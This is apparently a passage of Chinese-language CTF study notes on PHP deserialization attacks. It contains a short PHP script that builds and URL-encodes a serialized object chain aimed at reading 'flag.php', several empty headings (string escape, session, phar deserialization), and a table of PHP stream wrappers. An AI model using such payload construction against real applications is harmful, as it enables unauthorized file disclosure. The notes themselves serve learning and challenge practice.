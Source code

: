 构造

```php
<?php 
    
class Read{
    
}
class Show {
    public $source;
    public $var;
    public $class1;
}

	$obj = new Read;
	$obj2 = new Show;
	$obj2->class1=$obj;
	$obj2->var='flag.php';
	echo urlencode(serialize($obj2));

?>
```



### 6



## 字符串逃逸



## Session反序列化



## phar反序列化



## 伪协议

| 伪协议  | 功能                |
| ------- | ------------------- |
| file:// | 访问本地文件系统    |
| http:// | 访问 HTTP(s) 网址   |
| php://  | 访问各个输入/输出流 |
| phar:// | PHP 归档            |
| zip://  | 压缩流              |
